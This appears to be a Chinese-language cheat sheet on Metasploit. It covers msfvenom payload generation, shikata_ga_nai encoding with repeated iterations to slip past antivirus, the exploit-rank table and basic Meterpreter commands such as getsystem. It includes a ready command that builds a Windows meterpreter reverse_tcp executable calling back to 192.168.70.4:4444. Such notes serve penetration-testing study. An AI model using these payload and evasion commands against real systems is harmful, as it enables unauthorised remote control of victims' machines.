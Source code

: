 Msfvenom 是有效负载生成和编码的组合。它于 2015 年 6 月 8 日取代了 msf payload 和 msf encode。


要生成有效负载，您必须提供两个标志（`-p` 和 `-f`）：

```bash
-p 标志：指定要生成的有效负载
	要查看 Framework 提供哪些有效负载，您可以执行以下操作： ./msfvenom -l payloads
	-p 标志还支持“-”作为接受自定义负载的方式： cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
	
-f 标志： 指定有效负载的格式 ./msfvenom -p windows/meterpreter/bind_tcp -f exe
要查看支持哪些格式，您可以执行以下操作来了解： ./msfvenom --help-formats
```



```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.70.4 lport=4444 -f exe -o 4444.exe
```

#### 编码

```bash
默认情况下，当使用 -b 标志（badchar 标志）时，编码功能将自动启动。
在其他情况下，必须使用 -e 标志： msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw

列出可用编码器：msfvenom -l encoders

可以使用 -i 标志对有效负载进行多次编码 。有时更多的迭代可能有助于避免防病毒，但编码并不是真正的反病毒规避解决方案： msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

https://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/

### exploit-rank

每个漏洞利用模块都根据其对目标系统的潜在影响分配了一个等级。用户可以根据排名对漏洞进行搜索、分类和优先排序

| **Ranking**       | **Desc**                                                     |
| ----------------- | ------------------------------------------------------------ |
| Excellent Ranking | 该漏洞永远不会使服务崩溃。 SQL 注入、CMD 执行、RFI、LFI 等就是这种情况。除非有特殊情况（ WMF Escape() ），否则不应给予典型的内存损坏利用此排名。 |
| Great Ranking     | 该漏洞利用有一个默认目标，并且会自动检测适当的目标或在版本检查后使用特定于应用程序的返回地址。 |
| Good Ranking      | 该漏洞利用有一个默认目标, 漏洞利用不会自动检测目标。         |
| Normal Ranking    | 该漏洞在其他方面是可靠的，但取决于特定版本，无法（或不）可靠地自动检测。 |
| Average Ranking   | 该漏洞利用一般不可靠或难以利用，但对于常见平台来说成功率在50%以上。 |
| Low Ranking       | 对于常见平台，该漏洞几乎不可能被利用（成功率低于 50%）。     |
| Manual Ranking    | 该漏洞利用不稳定或难以利用，基本上是 DoS（成功率 15% 或更低）。当模块没有用处时也使用此排名，除非用户专门配置（例如： exploit/unix/webapp/php_eval ） |

### 常用命令

```bash
help
bg / background
tab键 自动补全
sessions
jobs

getuid
getsid
getpid
getsystem
sysinfo
netstat
ps
```